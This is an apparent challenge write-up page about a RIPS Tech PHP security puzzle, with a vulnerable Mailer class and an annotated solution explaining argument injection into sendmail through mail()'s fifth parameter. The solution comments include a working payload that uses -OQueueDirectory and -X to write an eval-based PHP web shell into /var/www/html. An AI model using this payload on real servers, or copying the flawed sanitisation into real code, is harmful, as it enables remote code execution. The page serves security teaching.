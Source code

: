 ```yaml
---

title: rips-56
author: raxjs
tags: [php]

---
```


Sending E-Mails in PHP.

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1154752480611373058" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
class Mailer {
    private function sanitize($email) {
        if(!filter_var($email, FILTER_VALIDATE_EMAIL)) {
            return '';
        }

        return escapeshellarg($email);
    }

    public function send($data) {
        if(!isset($data['to'])) {
            $data['to'] = 'none@ripstech.com';
        } else {
            $data['to'] = $this->sanitize($data['to']);
        }

        if(!isset($data['from'])) {
            $data['from'] = 'none@ripstech.com';
        } else {
            $data['from'] = $this->sanitize($data['from']);
        }

        if(!isset($data['subject'])) {
            $data['subject'] = 'No Subject';
        }

        if(!isset($data['message'])) {
            $data['message'] = '';
        }

        mail($data['to'], $data['subject'], $data['message'], '', "-f" . $data['from']);
    }
}
$mailer = new Mailer();
$mailer->send($_POST);

{{< /code >}}

# Solution
{{< code language="php" highlight="4-6,34,39" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
class Mailer {
    private function sanitize($email) {
        // 2) $email is user input. this filter is not 
        // enough to prevent argument injection later in
        // step 3
        if(!filter_var($email, FILTER_VALIDATE_EMAIL)) {
            return '';
        }

        return escapeshellarg($email);
    }

    public function send($data) {
        if(!isset($data['to'])) {
            $data['to'] = 'none@ripstech.com';
        } else {
            $data['to'] = $this->sanitize($data['to']);
        }

        if(!isset($data['from'])) {
            $data['from'] = 'none@ripstech.com';
        } else {
            $data['from'] = $this->sanitize($data['from']);
        }

        if(!isset($data['subject'])) {
            $data['subject'] = 'No Subject';
        }

        if(!isset($data['message'])) {
            $data['message'] = '';
        }
        // 3) argument injection in parameter 5 ($data['from'])
        mail($data['to'], $data['subject'], $data['message'], '', "-f" . $data['from']);
    }
}
$mailer = new Mailer();
// 1) send receives user input as argument
$mailer->send($_POST);

// [1] https://blog.sonarsource.com/why-mail-is-dangerous-in-php?redirect=rips
//
// var_dump(!filter_var('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php', FILTER_VALIDATE_EMAIL));
// bool(false)
// php > echo sanitize('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php');
// ''\''a."'\''\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php'
// php > echo escapeshellcmd(sanitize('\'a."\'\ -OQueueDirectory=\%0D<?=eval($_GET[c])?>\ -X/var/www/html/"@a.php'));
// ''\\''a."\'\\\'\'\\ -OQueueDirectory=\\%0D\<\?=eval\(\$_GET\[c\]\)\?\>\\ -X/var/www/html/"@a.php\'

// $ cat /tmp/test-mail.sh
// #!/bin/sh
// 
// echo "$@" >> /tmp/test-mail.log
// 
// $ grep sendmail_path /etc/php7/php.ini
// sendmail_path = /tmp/test-mail.sh

// $ cat /tmp/test-mail.log
// -faaa@bbb.ru
// -f\a.\'\\'\'\ -OQueueDirectory=\%0D\<\?=eval\($_GET\[c\]\)\?\>\ -X/var/www/html/@a.php'

// mail(
//     string $to,
//     string $subject,
//     string $message,
//     array|string $additional_headers = [],
//     string $additional_params = ""
// ): bool
//
// additional_params (optional)
// The additional_params parameter can be used to pass additional flags
// as command line options to the program configured to be used when
// sending mail, as defined by the sendmail_path configuration
// setting. For example, this can be used to set the envelope sender
// address when using sendmail with the -f sendmail option.
// 
// This parameter is escaped by escapeshellcmd() internally to prevent
// command execution. escapeshellcmd() prevents command execution, but
// allows to add additional parameters. For security reasons, it is
// recommended for the user to sanitize this parameter to avoid adding
// unwanted parameters to the shell command.
// 
// Since escapeshellcmd() is applied automatically, some characters that
// are allowed as email addresses by internet RFCs cannot be used. mail()
// can not allow such characters, so in programs where the use of such
// characters is required, alternative means of sending emails (such as
// using a framework or a library) is recommended.
// 
// The user that the webserver runs as should be added as a trusted user
// to the sendmail configuration to prevent a 'X-Warning' header from
// being added to the message when the envelope sender (-f) is set using
// this method. For sendmail users, this file is /etc/mail/trusted-users.


{{< /code >}}
